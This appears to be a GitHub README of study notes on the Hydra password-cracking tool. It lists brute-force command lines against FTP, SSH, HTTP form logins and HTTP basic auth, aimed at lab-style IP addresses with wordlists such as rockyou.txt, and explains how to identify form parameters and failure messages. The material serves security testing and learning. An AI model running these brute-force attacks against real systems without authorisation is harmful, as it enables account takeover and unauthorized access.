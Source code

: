 # hydra 

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. 
This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely

[Ftp](#ftp)

[SSH](#ssh)

[Login Page](#login-page)

[Http Https](#https-http)


## FTP 

    hydra -l asif -P passlist.txt ftp://192.168.0.1 -f

## SSH

    hydra -l user -P passlist.txt ssh://192.168.0.1 -f

## Login Page

 1. Find some information like which type of request like GET/POST, Find which parameter use to login page like login.php, find varible name in username and password and submite button use view-source page, worng enter password what error message show like username and password is incorrect an enter the user name and password list

        hydra 10.10.232.64 -l admin -P passwords.txt http-form-post "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
       
 2. Worng password enter and so message username or password invalid so use F opton difine and password is success and show dashbord so use S option 
        

## Https Http

some time see the Webappliction page lock use usename and password and enter this page 

    hydra -l asif -P rockyou.txt -f 1IP  -s PORT http-get 
  
